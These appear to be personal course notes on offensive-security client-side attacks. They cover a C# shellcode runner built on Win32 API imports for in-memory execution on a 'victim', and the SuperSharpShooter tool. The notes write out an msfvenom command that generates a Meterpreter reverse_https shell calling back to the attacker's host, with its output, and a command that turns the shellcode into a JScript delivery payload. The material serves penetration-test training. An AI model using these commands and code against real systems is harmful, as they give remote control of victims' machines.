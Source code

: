 ```c#
    }

}
```

- When calling Win32 APIs from PowerShell (in the previous module), we demonstrated the straightforward _Add-Type_ method and the more complicated reflection technique. However, the complexity of reflection was well worth it as we avoided writing C# source code and compiled assembly files temporarily to disk during execution. Luckily, when dealing with C#, we can compile the assembly before sending it to the victim and execute it in memory, which will avoid this problem.

## Shellcode Runner in C\#

- A signaled state indicates a resource is available for a process or thread to use it. A not-signaled state indicates the resource is in use.
- import Win32 APIs to execute shellcode in memory
```c#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```


### SharpShooter

- python2 compliant one
- python3 fork https://github.com/SYANiDE-/SuperSharpShooter
	- needed to change requirements to `jsmin==3.0.0`
	- virtenv in ~/virtual-environments/supersharpshooter
- generate payload
```bash
 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 EXITFUNCTION=thread -f raw -o shell.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 622 bytes
Saved as: shell.txt
```
- convert to js 
```bash
❯ sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --output  test

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'Sh'+'o'+'o'+'ter';
[*] Written delivery payload to output/test.js

```
